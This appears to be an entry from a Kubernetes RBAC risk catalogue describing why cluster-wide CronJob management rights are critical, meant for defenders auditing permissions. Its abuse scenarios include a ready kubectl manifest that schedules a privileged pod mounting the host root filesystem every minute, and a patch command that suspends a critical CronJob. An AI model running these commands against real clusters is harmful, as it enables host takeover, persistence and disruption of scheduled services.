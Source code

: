 ```yaml
---
id: 1039
title: "Manage CronJobs cluster-wide (scheduled privileged execution, persistence)"
description: "Permits creating, updating, or deleting CronJobs across all namespaces. CronJobs schedule recurring batch jobs. This is critical as it allows scheduling the execution of pods (potentially privileged) at regular intervals, leading to privilege escalation, persistent access, and tampering."
category: Elevation of Privilege
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field                   | Value                                                                                                               |
| ----------------------- | ------------------------------------------------------------------------------------------------------------------- |
| ID                      | 1039                                                                                                                |
| Name                    | Manage CronJobs cluster-wide (scheduled privileged execution, persistence)                                          |
| Risk Category           | Elevation of Privilege                                                                                              |
| Risk Level              | {{< risk Critical >}}                                                                                               |
| Role Type               | ClusterRole                                                                                                         |
| API Groups              | batch                                                                                                               |
| Resources               | cronjobs                                                                                                            |
| Risky Verb Combinations | [create] · [update] · [patch] · [delete]                                                                            |
| Tags                    | {{< tag "Persistence" >}} {{< tag "PrivilegeEscalation" >}} {{< tag "Tampering" >}} {{< tag "WorkloadLifecycle" >}} |

## Description

Permits creating, updating, or deleting CronJobs across all namespaces. CronJobs schedule recurring batch jobs. This is critical as it allows scheduling the execution of pods (potentially privileged) at regular intervals, leading to privilege escalation, persistent access, and tampering.

## Abuse Scenarios

1. Create a new CronJob that schedules a privileged pod to run periodically.

```bash
kubectl create -n <namespace> -f - <<EOF
apiVersion: batch/v1
kind: CronJob
metadata:
  name: privileged-cronjob
spec:
  schedule: "*/1 * * * *" # Every minute
  jobTemplate:
    spec:
      template:
        spec:
          hostNetwork: true
          hostPID: true
          containers:
          - name: attacker
            image: busybox
            command: ["/bin/sh", "-c", "echo 'Pwned!' > /host/pwned.txt"]
            securityContext:
              privileged: true
            volumeMounts:
            - mountPath: /host
              name: host-root
          volumes:
          - name: host-root
            hostPath:
              path: /
          restartPolicy: OnFailure
EOF
# Example: kubectl create -n default -f - <<EOF ... EOF

```

2. Suspend a critical CronJob, preventing scheduled tasks from running (DoS).

```bash
kubectl patch cronjob <cronjob-name> -n <namespace> -p '{"spec" : {"suspend" : true}}'
# Example: kubectl patch cronjob backup-db -n production -p '{"spec" : {"suspend" : true}}'

```
